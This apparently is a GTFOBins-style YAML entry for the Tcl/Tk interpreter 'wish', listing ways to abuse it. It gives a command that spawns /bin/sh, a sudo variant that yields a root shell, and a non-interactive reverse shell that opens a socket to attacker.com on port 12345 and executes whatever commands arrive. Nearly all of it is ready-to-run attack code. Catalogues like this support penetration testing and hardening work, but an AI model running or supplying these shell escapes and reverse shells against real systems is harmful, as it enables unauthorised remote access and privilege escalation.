 ```yaml
---
name: wish
functions:
  shell:
    - code: |
        wish
        exec /bin/sh <@stdin >@stdout 2>@stderr
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
  sudo:
    - code: |
        sudo wish
        exec /bin/sh <@stdin >@stdout 2>@stderr
---
```

